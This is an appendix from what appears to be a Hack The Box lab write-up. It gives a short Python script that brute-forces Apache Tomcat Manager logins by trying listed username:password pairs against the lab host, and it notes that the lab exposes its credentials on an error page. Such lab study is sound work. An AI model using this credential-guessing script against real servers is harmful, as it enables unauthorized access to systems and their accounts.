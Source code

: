 ```yaml
---
description: tomcat-brute.py script
---
```


# Appendix A

Followed the HTB Walkthrough pdf. In attempted to bruteforce the Manager App login credentials, I had difficulties getting the python script to work. I researched another walkthrough and realized that all I needed to do was enter "10.10.10.95:8080" into the url to see the ApacheTomcat server, try the "Manager App" login, hit "Cancel" and the username and password is provided in an error screen.

vim text editor was used to create the tomcat-brute.py script:

```
└─# vim tomcat-brute.py
```

python script to check known Tomcat credentials to reveal a username and password:

```
#!/usr/bin/env python
import sys
import requests
with open('tomcat-brute.txt') as f:
    for line in f:
        c = line.strip('\n').split(":")
        r = requests.get('http://10.10.10.95:8080/manager/html', auth=(c[0], c[1]))
        
        if r.status_code == 200:
            print ("Found valid credentials \"" + line.strip('\n') + "\"")
            raise sys.exit()
```
